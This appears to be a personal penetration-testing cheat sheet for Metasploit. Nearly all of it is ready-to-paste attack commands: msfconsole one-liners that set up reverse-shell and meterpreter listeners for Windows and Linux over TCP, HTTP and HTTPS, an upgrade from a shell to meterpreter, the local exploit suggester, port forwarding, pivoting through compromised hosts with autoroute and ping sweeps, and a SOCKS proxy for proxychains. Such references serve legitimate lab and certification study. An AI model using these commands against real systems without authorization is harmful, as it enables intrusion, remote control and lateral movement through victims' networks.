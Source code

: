 #### Starting metasploit
```
sudo msfdb run
```
#### Upgrade to meterpreter shell
Background shell with CTRL+Z
```
use post/multi/manage/shell_to_meterpreter
```
```
set SESSION 1
```
```
run
```
```
sessions -i 2
```
#### Windows reverse exe
[[1._Reverse Shells (WIN)#MSFVenom]]
#### Meterpreter Listener 1 Liner
HTTP Stageless:
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_http;set LHOST $KALI;set LPORT 443;run"
```
HTTP Staged:
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_http;set LHOST $KALI;set LPORT 443;run"
```
HTTPS Stageless:
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_https;set LHOST $KALI;set LPORT 443;run"
```
HTTPS Staged:
```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_https;set LHOST $KALI;set LPORT 443;run"
```
Windows 64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Windows 86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Linux 64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload linux/x64/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Linux 86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload linux/meterpreter/reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
#### Non-Meterpreter Listener 1 Liner
Windows 64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/x64/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Windows 86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload windows/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Linux 64:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload linux/x64/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
Linux 86:
```bash - kali
msfconsole -x "use exploit/multi/handler;set payload linux/shell_reverse_tcp;set LHOST $KALI;set LPORT 443;run"
```
#### Local Exploit Suggester
```meterpreter - kali
run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```
```metereprter - kali
set verbose true
```
```metereprter - kali
set exitonsession false
```
#### Port Forward
```meterperter - kali
portfwd add -l 80 -p 80 -r $TARGET
```
#### Pivoting
```
background
```
```
use post/multi/manage/autoroute
```
set subnet to the new found subnet:
```
set SUBNET x.x.x.x
```
```
set SESSION 2
```
```
exploit
```
```
use post/multi/gather/ping_sweep
```
```
set rhosts x.x.x.0/24
```
```
set session 1
```
```
run
```
To use proxychains and other tools:
```
background
```
```
use auxiliary/server/socks_proxy
```
```
run
```
```
sudo mousepad /etc/proxychains.conf
```
#### Post exploit modules
https://www.offsec.com/metasploit-unleashed/post-module-reference/
